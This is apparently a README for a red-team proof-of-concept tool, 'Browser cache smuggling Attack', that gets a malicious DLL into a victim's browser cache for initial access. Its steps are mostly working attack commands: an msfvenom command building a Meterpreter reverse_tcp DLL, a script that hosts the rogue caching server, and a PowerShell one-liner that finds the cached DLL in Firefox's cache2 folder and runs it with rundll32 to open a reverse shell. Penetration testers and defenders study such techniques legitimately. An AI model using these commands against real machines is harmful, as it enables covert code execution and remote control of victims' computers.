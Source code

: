 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

- To better understand how this attack work , please navigate to : 
# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![](https://surya-dev-singh.github.io/assets/img/Cache%20Smuggling%20Attack/Pasted%20image%2020231025192341.png)

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```

and we will get our reverse shell !! 

